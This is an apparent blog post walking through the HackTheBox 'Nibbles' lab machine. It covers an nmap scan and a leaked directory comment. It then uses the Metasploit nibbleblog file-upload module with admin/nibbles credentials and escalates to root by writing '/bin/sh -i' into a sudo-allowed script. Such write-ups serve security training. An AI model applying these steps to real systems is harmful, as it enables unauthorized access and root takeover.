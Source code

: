 ```yaml
---
layout: post
title:  "HackTheBox :: Nibbles"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```

Another breezy box by hackthebox that we can fly through with metasploit.

# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

# pwning user
Checking the web source will show us a comment leaking a running web service. Metasploit will do the rest.
```php
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
```
Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.10.10.75      yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog/     yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host
```

# getting root
A quick sudo -l check will show us the route to root.
```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
We can use su with monitor.sh without a password. We can echo a bash string into the script to force a root shell is returned.
```
echo '/bin/sh -i' > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
#
```


